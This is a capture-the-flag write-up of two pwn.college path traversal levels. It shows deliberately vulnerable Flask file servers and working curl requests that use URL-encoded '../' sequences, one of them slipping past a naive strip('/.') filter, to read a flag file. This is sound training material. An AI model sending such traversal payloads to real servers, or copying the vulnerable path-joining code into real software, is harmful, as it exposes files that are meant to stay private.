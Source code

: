 ```yaml
---
tags: ["Web Security", "Web Server", "File System"]
title: "Path Traversal"
description: Get un-authorized files from web server using Path Traversal
reference: https://pwn.college/intro-to-cybersecurity/web-security/
---
```


# 1

## Description

This level will explore the intersection of Linux path resolution, when done naively, and unexpected web requests from an attacker. We've implemented a simple web server for you --- it will serve up files from /challenge/files over HTTP. Can you trick it into giving you the flag?

The webserver program is /challenge/server. You can run it just like any other challenge, then talk to it over HTTP (using a different terminal or a web browser). We recommend reading through its code to understand what it is doing and to find the weakness!

HINT: If you're wondering why your solution isn't working, make sure what you're trying to query is what is actually being received by the server! curl -v [url] can show you the exact bytes that curl is sending over.

## Solution

1. read the server code

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/payload", methods=["GET"])
@app.route("/payload/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

2. send an HTTP request that

- `%2F` is the URL encoded representation of the forward slash character `/`.
- Based on how the server process the request - `requested_path = app.root_path + "/files/" + path` and `path` is controlled by the HTTP client, if we set `path=../../flag`, then `requested_path = /flag`. It means we can access files outside from `/challeges/files/`.

```
curl -v challenge.localhost/payload/..%2f..%2fflag
```

---

# 2

## Description

The previous level's path traversal happened because of a disconnect between:

- The developer's awareness of the true range of potential input that an attacker might send to their application (e.g., the concept of an attacker sending characters that have special meaning in paths).
- A gap between the developer's intent (the implementation makes it clear that we only expect files under the /challenge/files directory to be served to the user) and the reality of the filesystem (where paths can go "back" up a directory level).

This level tries to stop you from traversing the path, but does it in a way that clearly demonstrates a further lack of the developer's understanding of how tricky paths can truly be. Can you still traverse it?

## Solution

1. read the server code

This time the server will strip out the `"/."` from the client input path.

```
path.strip("/.")
```

Effect from `strip("/.")`:

```
>>> "../../flag".strip("/.")
'flag'
```

Server code:

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/serve", methods=["GET"])
@app.route("/serve/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```


2. found there is a sub-folder inside `files`

```
hacker@web-security~path-traversal-2:/challenge$ ls files/fortunes/
fortune-1.txt  fortune-2.txt  fortune-3.txt
```

3. the `strip` function behaviour

do nothing when the string is not start with "/" or ".":

```
>>> "fortunes/../../../flag".strip("/.")
'fortunes/../../../flag'
```

4. curl

```
curl -v challenge.localhost/serve/fortunes%2f..%2f..%2f..%2fflag
DEBUG: requested_path='/challenge/files/fortunes/../../../flag'
```
